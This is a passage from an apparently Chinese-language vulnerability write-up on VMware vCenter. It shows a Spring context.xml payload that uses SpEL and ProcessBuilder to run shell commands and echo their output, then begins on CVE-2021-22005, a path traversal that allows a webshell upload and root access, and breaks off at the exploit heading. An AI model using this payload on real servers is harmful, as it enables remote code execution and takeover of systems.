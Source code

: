 所以在执行 SpEL 时，可以将命令暂存到 `systemProperties` 中，然后利用 `getProperty` 方法获取回显。最终的 context.xml 内容为：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>``` | ```xml<br><beans xmlns="http://www.springframework.org/schema/beans"<br>       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"<br>       xsi:schemaLocation="<br>     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd"><br>    <bean id="pb" class="java.lang.ProcessBuilder"><br>        <constructor-arg><br>          <list><br>            <value>/bin/bash</value><br>            <value>-c</value><br>            <value><![CDATA[ ls -la /  2>&1 ]]></value><br>          </list><br>        </constructor-arg><br>    </bean><br>    <bean id="is" class="java.io.InputStreamReader"><br>        <constructor-arg><br>            <value>#{pb.start().getInputStream()}</value><br>        </constructor-arg><br>    </bean><br>    <bean id="br" class="java.io.BufferedReader"><br>        <constructor-arg><br>            <value>#{is}</value><br>        </constructor-arg><br>    </bean><br>    <bean id="collectors" class="java.util.stream.Collectors"></bean><br>    <bean id="system" class="java.lang.System"><br>        <property name="whatever" value="#{ system.setProperty(&quot;output&quot;, br.lines().collect(collectors.joining(&quot;\n&quot;))) }"/><br>    </bean><br></beans><br>``` |

最终漏洞利用的结果：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205072106797.png-water_print](assets/1708572547-88234b08cdc47aa45b98425bd6cb5752.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205072106797.png-water_print")

### [](#25-cve-2021-22005)2.5 CVE-2021-22005

#### [](#251-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)2.5.1 漏洞利用

Analytics 服务相关端点存在目录穿越写文件，可以直接上传 Webshell 文件，并获取 root 权限。

影响版本：

-   `7.0 <= vCenter Server < 7.0 U2c`
-   `6.7 <= vCenter Server < 6.7 U3o`

POC：

-   `/nuclei-templates/cves/2021/CVE-2021-22005.yaml`

EXP：
